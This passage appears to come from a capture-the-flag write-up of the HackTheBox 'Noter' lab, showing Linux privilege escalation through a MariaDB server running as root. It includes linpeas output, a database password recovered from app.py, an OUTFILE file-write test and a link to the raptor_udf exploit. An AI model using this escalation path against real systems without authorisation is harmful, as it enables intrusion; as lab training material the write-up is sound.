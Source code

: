 ```
+-------------+----------------+----------+-------------------------------------------------------------------------------+------+
```
Nothing interest in this database.
### Run linpeas.
Linpeas shows the result that there is a user `mysql` but it is running as `root`
```
╔══════════╣ All users & groups
uid=0(root) gid=0(root) groups=0(root)
uid=1001(svc) gid=1001(svc) groups=1001(svc)
uid=114(mysql) gid=119(mysql) groups=119(mysql)     
```

```
╔══════════╣ MySQL version
mysql  Ver 15.1 Distrib 10.3.32-MariaDB, for debian-linux-gnu (x86_64) using readline 
5.2
MySQL user: root
```
Try to write in the temp directory.
```
MariaDB [(none)]> select 1 into OUTFILE '/tmp/1';
ERROR 1045 (28000): Access denied for user 'DB_user'@'localhost' (using password: YES)
MariaDB [(none)]> 
```
User  `DB_user` has no permission.

Reading it the backup file the password for root user.
```
┌──(egovridc㉿egovridc)-[~/…/htb/noter/app/1]
└─$ grep -i mysql  app.py    
from flask_mysqldb import MySQL
# Config MySQL
app.config['MYSQL_HOST'] = 'localhost'
app.config['MYSQL_USER'] = 'root'
app.config['MYSQL_PASSWORD'] = 'Nildogg36'
app.config['MYSQL_DB'] = 'app'
```
Access MySQL as root user and creating a file named as `1` into temp directory.
```
MariaDB [(none)]> select 1 into OUTFILE '/tmp/1';
ERROR 1086 (HY000): File '/tmp/1' already exists
```
The activity is done and the file has been created but the owner is `root` user
```
svc@noter:/tmp$ ls -la
total 904
drwxrwxrwt 17 root root   4096 Sep  6 11:00 .
drwxr-xr-x 19 root root   4096 May  2 23:05 ..
-rw-r--r--  1 root root      2 Sep  6 09:15 1
```
This exploit is known and it is called [raptor_udf](https://raw.githubusercontent.com/1N3/PrivEsc/master/mysql/raptor_udf2.c) vulnerability.
